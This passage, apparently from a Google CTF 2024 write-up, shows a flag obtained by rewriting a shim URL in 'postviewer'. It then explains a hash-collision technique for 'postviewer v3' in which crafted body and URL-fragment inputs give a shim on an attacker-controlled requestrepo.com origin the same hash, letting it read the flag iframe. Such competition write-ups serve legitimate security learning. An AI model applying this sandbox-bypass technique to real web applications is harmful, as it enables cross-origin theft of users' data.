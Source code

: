 The only difference being that in `safe-frame.js`, I replaced
```js
const url = new URL(
    `https://${hash}-h641507400.scf.usercontent.goog/google-ctf/shim.html`
  );
// with
const url = new URL(
    `http://${hash}-h641507400.0ta1gxvglkyjct11uf3lvr9g3b45whebmhcjklt106au2kgy3e-h641507400.scf.usercontent.goog/google-ctf/shim.html`
);
```

And we get the flag:

**CTF{Bugs_Bugs_Where?_Everywhere!208c92890560773b2fa5b69f69d1a435}**

<a name="postviewer-v3"></a>
## postviewer v3 (303 pts, 19 solves) - Web

Description:
```
New year new postviewer.

URL: https://postviewer3-web.2024.ctfcompetition.com/
```

3rd iteration of the postviewer challenges. It's becoming quite a tradition at this point, kinda like AgilePaste. This is the challenge architecture in a nutshell:

![](/assets/images/postviewer3.svg)

**Getting code execution in the shim:** Turns out that our method was unintended, but it allowed us to solve the challenge quicker. We notice that if we can produce 2 shims that have the same hash, but one has our origin while the other one is from postviewer3, then we can read the iframe content and therefore the flag. Let's see how the hash is generated:
```javascript
async function safeFrameRender(body, mimeType, product, shimOrigin, container) {
  const url = new URL(shimOrigin);
  const hash = await calculateHash(body, product, window.origin, location.href); 
  url.host = `sbx-${hash}.${url.host}`;
```

So it's just the concatenation of `body||product||window.origin||location.href`. Thing is, location.href contains the # part of the URL, which we can control (we'll see that later). And we control the `body` part as well. So we can craft a shim like this:
```
body: evaluatorHtml||postviewer||https://postviewer3-web.2024.ctfcompetition.com||https://postviewer3-web.2024.ctfcompetition.com/#
product: whatever
origin: https://als0z0ha.requestrepo.com
salt: (empty)
```

And if we change the hash to `#whateverhttps://als0z0ha.requestrepo.com`, we will have a shim with the same origin!
